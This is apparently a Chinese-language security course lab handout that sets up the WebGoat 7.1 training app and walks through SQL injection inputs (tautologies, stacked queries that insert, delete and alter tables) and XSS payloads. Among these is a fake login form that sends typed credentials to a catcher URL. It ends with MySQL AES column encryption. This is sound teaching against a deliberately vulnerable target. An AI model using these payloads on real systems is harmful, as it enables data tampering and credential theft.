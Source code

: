 # 資安概論實作

# 2.8 SQL Injection 與 XSS攻擊手法
## 測試環境建置
- 下載 Java
  - 網址：https://java.com/zh_TW/download/manual.jsp
  - 檔名：jre-8u281-windows-x64.exe
- 安裝 Java
  - 執行 jre-8u281-windows-x64.exe
- 下載 WebGoat 7.1
  - 網址：https://github.com/WebGoat/WebGoat/releases/tag/7.1
  - 檔名：webgoat-container-7.1-exec.jar
- 安裝 WebGoat 7.1
- 執行WebGoat
  - 開啟命令提示字元視窗並執行以下指令：
  - java -jar webgoat-container-7.1-exec.jar
- 開啟 Chrome 瀏覽器輸入 http://localhost:8080/WebGoat
- 登入帳號 guest 與通行碼 guest

## SQL Injection 測試步驟

#### Numeric SQL Injection
- 數字欄位(點選 Injection Flaws > Numeric SQL Injection)
- 在網址列輸入 http://localhost:8080/WebGoat/start.mvc#attack/515/1100?Screen=75&menu=1200&station=101 or 1=1並檢視查詢的結果

#### String SQL Injection
- 文字欄位(點選 Injection Flaws > String SQL Injection)
- 各種攻擊情境
  - 在 Last Name 欄位輸入「S' or '1'='1」or 「1' or '1'='1」並檢視查詢的結果
  - 在 Last Name 欄位輸入「alice';select * from salaries where '1'='1」並檢視查詢的結果
  - 在 Last Name 欄位輸入「alice';insert into salaries (userid,salary)values ('steven',100);select * from salaries where '1'='1」檢視增加的結果
  - 在 Last Name 欄位輸入「alice';delete from salaries where userid='steven」後，再重新輸入「jsmith' ; select * from salaries where '1'='1」並檢視刪除的結果
  - 在 Last Name 欄位輸入「alice' ; ALTER table salaries add temp char(255); select * from salaries where '1'='1」並檢視增加的結果

## XSS 測試步驟(三種XSS漏洞)
#### Stored XSS
- Stored XSS(點選 Cross-Site Scripting(XSS) > Stored XSS Attack)
- 在 Title 欄位輸入「<script>alert('XSS');</script>」並檢視顯示的結果

#### Reflected XSS
- 點選 Cross-Site Scripting(XSS) > Phishing with XSS)
- 各種攻擊情境
  - 在 Search 欄位輸入「<script>alert('XSS');</script>」並檢視顯示的結果
  - Search 欄位輸入「<script>alert(document.cookie);</script>」並檢視顯示的 Cookie 值
  - 在 Search 欄位輸入下列資料，輸入完成後，檢視輸入「Account」與「Password」的結果
```
</form> 
<script> 
function hack(){ 
    var user = document.loginform.user.value; 
    var pass = document.loginform.pass.value; 
    alert("User:" + user + "\nPass:" + pass); 
    XSSImage=new Image;   
XSSImage.src="http://localhost/webgoat/catcher?PROPERTY
=yes&user="+ user + "&password=" + pass; 
}   
</script> 
<form name="loginform" ><br><br><HR> 
<H3>這個功能需要您的帳號登入(Please  input  your  account, 
again):</H3 ><br><br> 
Account:<br><input type="text" name="user"><br> 
Password:<br><input type="password" name = "pass"><br> 
<input  type="submit"  name="login"  value="login" 
onclick="hack()"> 
</form><br><br><HR>
```
## 2.9 資料表欄位加密
- 資料表範例
- 建立資料表
```sql
CREATE TABLE employee( 
name char(20), 
username varbinary(255), 
password varbinary(255) 
) 
```
- 於資料表內建立資料，同時使用加密函數將機敏資料欄位加密
```
INSERT INTO employee (name, username, password) values 
("johnchang",AES_ENCRYPT("john","peter1234"), 
AES_ENCRYPT ("12345","peter1234")) 
```
- 顯示加密資料
```
SELECT *, AES_DECRYPT(username, 'peter1234') 
DECOE_username, AES_DECRYPT (password, 'peter1234') 
DECOE_password FROM employee
```
